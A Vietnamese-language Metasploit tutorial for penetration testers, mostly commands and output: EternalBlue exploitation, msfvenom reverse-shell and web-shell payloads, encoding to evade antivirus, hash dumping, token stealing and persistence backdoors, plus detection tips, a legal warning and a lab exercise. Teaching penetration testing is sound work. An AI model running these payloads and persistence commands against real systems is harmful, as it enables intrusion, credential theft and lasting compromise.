



# ⚔️ Metasploit Framework

Hướng dẫn sử dụng Metasploit Framework cho penetration testing và security assessment.

---

## 📋 Metasploit là gì?

**Metasploit Framework** là công cụ penetration testing mã nguồn mở mạnh nhất hiện nay, được phát triển bởi Rapid7.

### Tính năng chính

- 🎯 **Exploit database** - Hơn 2,000 exploits
- 🔍 **Vulnerability scanner** - Quét lỗ hổng tự động
- 💉 **Payload generator** - Tạo shellcode tùy chỉnh
- 🎭 **Post-exploitation** - Lateral movement, privilege escalation
- 📊 **Reporting** - Tạo báo cáo pentest chuyên nghiệp

---

## 🚀 Installation & Setup

### Kali Linux (Pre-installed)

```bash
# Update Metasploit
$ sudo apt update
$ sudo apt install metasploit-framework

# Start PostgreSQL database
$ sudo systemctl start postgresql
$ sudo systemctl enable postgresql

# Initialize MSF database
$ sudo msfdb init

# Launch Metasploit
$ msfconsole
```

### Kiểm tra cài đặt

```bash
msf6 > version
Framework: 6.3.42-dev
Console  : 6.3.42-dev

msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

---

## 🎯 Metasploit Architecture



---

## 📦 Module Types

### 1. Exploits

Code khai thác lỗ hổng bảo mật.

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > info

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Arch: x64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
```

### 2. Payloads

Code thực thi sau khi exploit thành công.

**Types:**

=== "Singles"
    Standalone payload, không cần bổ sung.
    ```bash
    windows/exec  # Execute command
    linux/x64/exec
    ```

=== "Stagers"
    Thiết lập kết nối, download stage tiếp theo.
    ```bash
    windows/meterpreter/reverse_tcp  # Reverse shell
    linux/x64/meterpreter/bind_tcp   # Bind shell
    ```

=== "Stages"
    Payload đầy đủ, được download bởi stager.
    ```bash
    meterpreter  # Interactive shell
    vncinject    # VNC injection
    ```

### 3. Auxiliary

Modules hỗ trợ: scanner, fuzzer, DoS, etc.

```bash
# Port scanner
msf6 > use auxiliary/scanner/portscan/tcp

# SMB version scanner
msf6 > use auxiliary/scanner/smb/smb_version

# FTP anonymous login
msf6 > use auxiliary/scanner/ftp/anonymous
```

### 4. Post

Modules chạy sau khi đã exploit (post-exploitation).

```bash
# Dump password hashes
use post/windows/gather/hashdump

# Screenshot
use post/windows/gather/screen_spy

# Keylogger
use post/windows/capture/keylog_recorder
```

### 5. Encoders

Encode payload để bypass antivirus.

```bash
# x86 shikata_ga_nai encoder
msfvenom -p windows/meterpreter/reverse_tcp \
         -e x86/shikata_ga_nai \
         -i 5 \
         LHOST=192.168.1.10 \
         LPORT=4444 \
         -f exe > payload.exe
```

---

## 🔧 Basic Workflow

### 1. Reconnaissance

```bash
# Port scan với Nmap integration
msf6 > db_nmap -sV -sC 192.168.1.100

# View discovered hosts
msf6 > hosts

# View discovered services
msf6 > services
```

### 2. Vulnerability Scanning

```bash
# SMB vulnerability scan
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010!
```

### 3. Exploitation

```bash
# Select exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# Set target
msf6 exploit(...) > set RHOSTS 192.168.1.100

# Set payload
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Set your IP
msf6 exploit(...) > set LHOST 192.168.1.10
msf6 exploit(...) > set LPORT 4444

# Check options
msf6 exploit(...) > show options

# Exploit!
msf6 exploit(...) > exploit

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Sending stage (200262 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened
```

### 4. Post-Exploitation

```bash
# Inside Meterpreter session
meterpreter > sysinfo
Computer        : WIN10-PC
OS              : Windows 10 (10.0 Build 19044)
Architecture    : x64

# Get shell
meterpreter > shell
C:\Windows\system32>

# Upload file
meterpreter > upload /root/tools/mimikatz.exe C:\\Temp

# Download file
meterpreter > download C:\\Users\\Admin\\passwords.txt

# Screenshot
meterpreter > screenshot

# Dump hashes
meterpreter > hashdump
Administrator:500:aad3b435b51404ee...
```

---

## 🎭 Common Attack Scenarios

### Scenario 1: Windows SMB Exploitation



### Scenario 2: Web Application Attack

```bash
# 1. Scan web server
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(...) > set RHOSTS example.com
msf6 auxiliary(...) > run

# 2. Test for SQL injection
msf6 > use auxiliary/scanner/http/sqlmap
msf6 auxiliary(...) > set RHOSTS example.com
msf6 auxiliary(...) > set URI /login.php
msf6 auxiliary(...) > run

# 3. Exploit found vulnerability
msf6 > use exploit/multi/http/php_cgi_arg_injection
msf6 exploit(...) > set RHOSTS example.com
msf6 exploit(...) > exploit
```

---

## 🔨 Msfvenom - Payload Generator

### Generate Windows Reverse Shell

```bash
# EXE format
$ msfvenom -p windows/meterpreter/reverse_tcp \
           LHOST=192.168.1.10 \
           LPORT=4444 \
           -f exe \
           -o shell.exe

# DLL format
$ msfvenom -p windows/meterpreter/reverse_tcp \
           LHOST=192.168.1.10 \
           LPORT=4444 \
           -f dll \
           -o shell.dll

# PowerShell script
$ msfvenom -p windows/meterpreter/reverse_tcp \
           LHOST=192.168.1.10 \
           LPORT=4444 \
           -f psh \
           -o shell.ps1
```

### Generate Linux Reverse Shell

```bash
# ELF binary
$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
           LHOST=192.168.1.10 \
           LPORT=4444 \
           -f elf \
           -o shell.elf

# Python script
$ msfvenom -p python/meterpreter/reverse_tcp \
           LHOST=192.168.1.10 \
           LPORT=4444 \
           -f raw \
           -o shell.py
```

### Encoded Payload (Bypass AV)

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp \
           LHOST=192.168.1.10 \
           LPORT=4444 \
           -e x86/shikata_ga_nai \
           -i 10 \
           -f exe \
           -o encoded_shell.exe

# -e: encoder
# -i: iteration count (càng nhiều càng tốt, nhưng file lớn hơn)
```

### Web Payloads

```bash
# PHP web shell
$ msfvenom -p php/meterpreter/reverse_tcp \
           LHOST=192.168.1.10 \
           LPORT=4444 \
           -f raw \
           -o shell.php

# JSP web shell
$ msfvenom -p java/jsp_shell_reverse_tcp \
           LHOST=192.168.1.10 \
           LPORT=4444 \
           -f raw \
           -o shell.jsp
```

---

## 🎯 Meterpreter Commands

### System Information

```bash
# System info
meterpreter > sysinfo

# Current user
meterpreter > getuid

# Process list
meterpreter > ps

# Network config
meterpreter > ipconfig
meterpreter > route
```

### File Operations

```bash
# Current directory
meterpreter > pwd

# List files
meterpreter > ls

# Change directory
meterpreter > cd C:\\Users

# Search files
meterpreter > search -f *.txt

# Upload/Download
meterpreter > upload /root/file.txt C:\\Temp
meterpreter > download C:\\file.txt /root
```

### Privilege Escalation

```bash
# Get current privileges
meterpreter > getprivs

# Attempt auto-escalation
meterpreter > getsystem

# Load privilege escalation module
meterpreter > use priv

# Steal token
meterpreter > steal_token <PID>
```

### Persistence

```bash
# Create persistent backdoor
meterpreter > run persistence -X -i 10 -p 4444 -r 192.168.1.10

# Registry persistence
meterpreter > run persistence -A -S -i 60 -p 4444 -r 192.168.1.10
```

---

## 🛡️ Defense & Detection

### How to Detect Metasploit

!!! warning "Indicators of Compromise (IOC)"
    - Unusual outbound connections to high ports
    - Meterpreter payload signatures in network traffic
    - Registry persistence keys: `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
    - Unexpected PowerShell executions
    - Known Metasploit user agents

### Prevention Strategies

| Layer | Defense Mechanism |
|-------|------------------|
| **Network** | IDS/IPS signatures, Network segmentation |
| **Host** | Antivirus, Application whitelisting |
| **Firewall** | Outbound traffic filtering |
| **Monitoring** | SIEM, Log analysis, Behavioral detection |
| **Patching** | Regular security updates |

---

## 📊 Lab Setup

### Safe Practice Environment



### VirtualBox Network Setup

```bash
# Host-Only Network
Adapter: Host-Only Adapter
Name: vboxnet0
IPv4: 192.168.56.1
DHCP: Disabled

# VMs configuration
Kali Linux:    192.168.56.10
Windows 10:    192.168.56.100
Metasploitable: 192.168.56.102
```

---

## ⚠️ Legal & Ethical Considerations

!!! danger "CRITICAL WARNING"
    **ONLY test on systems you own or have explicit written permission to test!**
    
    Unauthorized penetration testing is **ILLEGAL** and can result in:
    - Criminal charges
    - Hefty fines
    - Jail time
    - Civil lawsuits

!!! tip "Ethical Hacking Guidelines"
    1. ✅ Get written authorization before testing
    2. ✅ Define scope clearly
    3. ✅ Use in controlled lab environments
    4. ✅ Report vulnerabilities responsibly
    5. ❌ Never exploit production systems without permission
    6. ❌ Never use for malicious purposes

---

## 📚 Resources & Further Learning

### Official Resources
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) - Free training
- [Rapid7 Documentation](https://docs.rapid7.com/metasploit/)
- [Metasploit GitHub](https://github.com/rapid7/metasploit-framework)

### Practice Platforms
- [HackTheBox](https://www.hackthebox.eu/)
- [TryHackMe](https://tryhackme.com/)
- [VulnHub](https://www.vulnhub.com/)
- [Metasploitable 2/3](https://sourceforge.net/projects/metasploitable/)

### Certifications
- **OSCP** - Offensive Security Certified Professional
- **CEH** - Certified Ethical Hacker
- **GPEN** - GIAC Penetration Tester

---

## 🎓 Practice Exercises

### Exercise 1: Basic Exploitation

!!! example "Task"
    1. Set up Metasploitable 2 VM
    2. Scan for vulnerabilities
    3. Exploit using appropriate module
    4. Gain meterpreter session
    5. Dump password hashes

??? success "Solution"
    ```bash
    # 1. Scan
    msf6 > db_nmap -sV 192.168.56.102
    
    # 2. Use exploit
    msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
    msf6 exploit(...) > set RHOSTS 192.168.56.102
    msf6 exploit(...) > exploit
    
    # 3. Upgrade to meterpreter
    sessions -u 1
    
    # 4. Dump hashes
    meterpreter > hashdump
    ```

---

**Skill Level**: Advanced | **Practice Hours**: 50+ hours recommended
